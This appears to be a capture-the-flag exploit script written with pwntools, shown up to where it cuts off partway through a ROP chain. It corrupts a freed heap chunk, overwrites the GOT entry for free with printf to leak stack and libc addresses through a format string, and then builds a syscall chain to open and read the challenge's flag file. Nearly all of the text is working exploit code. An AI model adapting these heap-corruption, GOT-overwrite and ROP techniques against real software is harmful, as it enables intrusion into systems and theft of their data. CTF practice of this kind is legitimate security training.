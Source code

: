 ```python=
io = start()

def new(size):
	io.recvuntil('> ')
	io.sendline('1')
	io.recvuntil('page size:\n')
	io.sendline(str(size))

def edit(idx, data):
	io.recvuntil('> ')
	io.sendline('2')
	io.recvuntil('index:\n')
	io.sendline(str(idx))
	io.recvuntil('content:\n')
	io.send(data)

def delete(idx):
	io.recvuntil('> ')
	io.sendline('3')
	io.recvuntil('index:\n')
	io.sendline(str(idx))


pop_rdx_rsi = 0x00130889
pop_rsp = 0x0019a6c2
pop_rdi = 0x0016619e
pop_rax = 0x0010fedc
pop_r10 = 0x00130865
sys_ret = 0x0010fbc5


io.recvuntil('name size:\n')
size = 8
io.sendline(str(size))
io.recvuntil('name:\n')
io.send(p64(0x7f))
new(0x68)
edit(0, 'A'*0x68)
delete(0)
edit(0, p64(0x6020bd))
new(0x68)
new(0x68)
edit(1, b'%p.' + b'%p'*20 +p64(0x6161616161616161)*5 + p64(exe.got['free']))
edit(0, p64(exe.sym.printf + 6))
delete(1)
io.recvuntil('0x100400b0a')
stack = int(io.recvn(14), 0)
io.recvuntil('0x4010c0')
libc.address = int(io.recvn(14), 0) -(0x7fd6e70a8b97 - 0x7fd6e7087000)
log.info('stack {}'.format(hex(stack)))
log.info('Libc leak {}'.format(hex(libc.address)))
edit(1, b'%p.' + b'\x01'*0x38+b'/home/ctf/flag\x00\x00'+p64(0x6161616161616161)*1 +p64(stack+8))
rop = flat([
	libc.address +pop_rdx_rsi,
	0x0,
	0x602108,
	libc.address+pop_r10,
	0x0,
	libc.address+pop_rax,
	257,
	libc.address+sys_ret,
	libc.address+pop_rdi,
	0x6,
```